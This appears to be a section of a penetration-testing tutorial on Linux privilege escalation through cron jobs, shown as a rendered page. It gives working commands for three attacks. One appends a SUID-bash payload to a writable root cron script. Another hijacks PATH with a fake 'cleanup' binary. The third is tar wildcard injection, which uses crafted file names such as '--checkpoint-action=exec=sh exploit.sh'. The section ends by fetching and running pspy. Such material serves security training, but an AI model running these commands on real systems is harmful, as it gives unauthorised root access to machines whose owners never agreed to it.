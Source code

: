 ### Cron Exploitation Techniques

**Direct Script Modification**:
When a cron script is writable, you can append your payload:
```bash
# If /usr/local/bin/backup.sh runs as root and is writable:
echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" >> /usr/local/bin/backup.sh
```

**Why this works**:
1. Cron executes the script as root
2. Your added commands run with root privileges
3. Creates a SUID copy of bash for later use

**PATH Hijacking in Cron**:
When scripts call programs without full paths:
```bash
# If cron runs a script containing: cleanup
# And PATH includes writable directories:
echo "cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash" > /tmp/cleanup
chmod +x /tmp/cleanup
# Modify PATH or place in existing PATH directory
```

### Advanced Cron Techniques

**Wildcard Injection**:
Some backup scripts use wildcards dangerously:
```bash
# If cron runs: tar -czf backup.tar.gz *
# Create malicious files that abuse tar's command-line parsing:
echo "payload commands" > exploit.sh
chmod +x exploit.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh exploit.sh"
```

**Why this works**:
1. Shell expands `*` to include your specially named files
2. Tar interprets the filenames as command-line options
3. The `--checkpoint-action` option executes your script

### Monitoring for Cron Execution

**Using pspy** (process monitor without root):
```bash
# Download and run pspy to see process execution
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x pspy64
./pspy64
```

This helps you:
- See what processes run at specific times
- Identify cron jobs that aren't in standard locations
- Understand the timing of automated tasks

---